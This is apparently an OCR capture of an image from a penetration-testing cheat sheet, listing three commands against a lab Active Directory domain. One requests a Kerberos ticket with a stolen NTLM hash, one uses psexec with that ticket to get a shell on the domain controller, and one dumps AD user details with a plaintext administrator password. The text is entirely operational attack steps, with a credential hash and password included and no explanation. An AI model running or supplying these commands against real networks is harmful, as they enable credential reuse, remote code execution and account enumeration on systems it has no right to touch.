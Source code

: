         Request TGT:  python getTGT.py -dc-ip 192.168.1.105 -hashes :64fbae31cc352fc26af97cbdef151e03 ignite.local/yashika
            Get Shell:  export KRB5CCNAME=yashika.ccache; psexec.py -dc-ip 192.168.1.105 -target-ip 192.168.1.105 -no-pass -k ignite.local/yashika@WIN-S0V7KMTVLD2.ignite.local
        Dump AD User info:  python3 GetADUSers.py [-all \\ -all-users] ignite.local/Administrator:Ignite@987 -dc-ip 192.168.1.105
